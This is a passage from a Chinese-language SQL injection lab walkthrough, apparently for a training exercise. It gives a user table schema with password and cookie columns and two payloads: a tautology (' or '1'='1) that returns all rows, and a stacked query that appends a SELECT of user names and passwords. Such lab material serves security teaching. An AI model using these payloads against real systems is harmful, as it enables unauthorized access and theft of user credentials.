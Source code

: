 ```
CREATE TABLE user_system_data (
    userid int not null primary key,
    user_name varchar(12),
    password varchar(10), 
    cookie varchar(30));
```
4.尝试从表中获取所有数据。

可以使用简单的永真式sql注入：
```
' or '1'='1
```
![sqli-advanced-02](images\lab_sqli\sqli-advanced-02.png)


5.尝试构建额外的查询语句。

第一种方式，使用语句分割符、格外的SQL语句和注释符。

```
#例如
' or '1'='1' ; SELECT userid,user_name,password FROM user_system_data  --
```
![sqli-advanced-03](images\lab_sqli\sqli-advanced-03.png)
